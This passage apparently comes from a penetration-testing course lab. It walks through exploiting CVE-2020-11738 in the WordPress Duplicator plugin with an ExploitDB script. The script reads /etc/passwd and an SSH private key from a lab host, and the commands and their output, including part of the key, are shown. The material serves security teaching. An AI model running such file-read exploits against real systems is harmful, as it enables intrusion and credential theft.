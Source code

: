 ```
print(output.text)
```

> Listing 9 - Information about the Directory Traversal vulnerability in Duplicator 1.3.26

Listing 9 shows the Python code to exploit the vulnerability tracked as [*CVE-2020-11738*](https://nvd.nist.gov/vuln/detail/CVE-2020-11738). Notice that the Python script sends a GET request to a URL and adds a filename prepended with "dot dot slash" expressions.

Let's copy the Python script to the **/home/kali/beyond/websrv1** directory using SearchSploit's **\-m** option with the ExploitDB ID.

```
kali@kali:~/beyond$ cd beyond/websrv1

kali@kali:~/beyond/websrv1$ searchsploit -m 50420
  Exploit: Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/50420
     Path: /usr/share/exploitdb/exploits/php/webapps/50420.py
File Type: ASCII text

Copied to: /home/kali/beyond/websrv1/50420.py
```

> Listing 10 - SearchSploit command to copy the exploit script to the current directory

To use the script, we must provide the URL of our target and the file we want to retrieve. Let's attempt to read and display the contents of **/etc/passwd** both to confirm that the target is indeed vulnerable and to obtain user account names of the system.

```
kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
daniela:x:1001:1001:,,,:/home/daniela:/bin/bash
marcus:x:1002:1002:,,,:/home/marcus:/bin/bash
```

> Listing 11 - Performing a Directory Traversal attack on WEBSRV1

Very nice! We successfully obtained the contents of **/etc/passwd** and identified two user accounts, *daniela* and *marcus*. Let's add them to **creds.txt**.

As we have learned in the *Common Web Application Attacks* Module, there are several files we can attempt to retrieve via Directory Traversal to obtain access to a system. One of the most common methods is to retrieve an SSH private key configured with permissions that are too open.

In this example, we'll attempt to retrieve an SSH private key with the name **id\_rsa**. The name will differ depending on the specified type when creating an SSH private key with [*ssh-keygen*](https://linux.die.net/man/1/ssh-keygen). For example, when choosing *ecdsa* as the type, the resulting SSH private key is named **id\_ecdsa** by default.

Let's check for SSH private keys with the name **id\_rsa** in the home directories of *daniela* and *marcus*.

```
kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /home/marcus/.ssh/id_rsa
Invalid installer file name!!

kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /home/daniela/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBAElTUsf
3CytILJX83Yd9rAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDwl5IEgynx
KMLz7p6mzgvTquG5/NT749sMGn+sq7VxLuF5zPK9sh//lVSxf6pQYNhrX36FUeCpu/bOHr
tn+4AZJEkpHq8g21ViHu62IfOWXtZZ1g+9uKTgm5MTR4M8bp4QX+T1R7TzTJsJnMhAdhm1
...
UoRUBJIeKEdUlvbjNuXE26AwzrITwrQRlwZP5WY+UwHgM2rx1SFmCHmbcfbD8j9YrYgUAu
vJbdmDQSd7+WQ2RuTDhK2LWCO3YbtOd6p84fKpOfFQeBLmmSKTKSOddcSTpIRSu7RCMvqw
l+pUiIuSNB2JrMzRAirldv6FODOlbtO6P/iwAO4UbNCTkyRkeOAz1DiNLEHfAZrlPbRHpm
QduOTpMIvVMIJcfeYF1GJ4ggUG4=
```